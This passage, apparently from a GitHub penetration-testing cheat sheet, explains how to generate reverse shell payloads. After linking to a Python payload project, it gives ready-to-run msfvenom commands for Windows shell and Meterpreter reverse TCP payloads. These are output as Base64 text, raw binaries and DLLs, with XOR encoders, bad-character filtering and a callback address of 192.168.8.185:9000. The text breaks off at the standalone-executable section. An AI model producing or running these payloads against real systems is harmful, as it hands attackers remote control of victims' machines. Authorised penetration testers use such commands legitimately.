 <p id="generate-a-reverse-shell-payload-for-python"/>

### Generate a Reverse Shell Payload for Python

Find out how to generate a `reverse shell payload` for Python and send it to a target machine from my other [project](https://github.com/ivan-sincek/send-tcp-payload).

<p id="generate-a-reverse-shell-payload-for-windows-os"/>

### Generate a Reverse Shell Payload for Windows OS

To generate a `Base64 encoded payload` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > /root/Desktop/payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > /root/Desktop/payload.txt

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > /root/Desktop/payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > /root/Desktop/payload.txt
```

To generate a `binary file` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o /root/Desktop/payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o /root/Desktop/payload.bin

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -o /root/Desktop/payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -o /root/Desktop/payload.bin
```

To generate a `DLL file` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o /root/Desktop/payload.dll

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o /root/Desktop/payload.dll
```

To generate a `standalone executable` file use one of the following MSFvenom commands (modify them to your need):
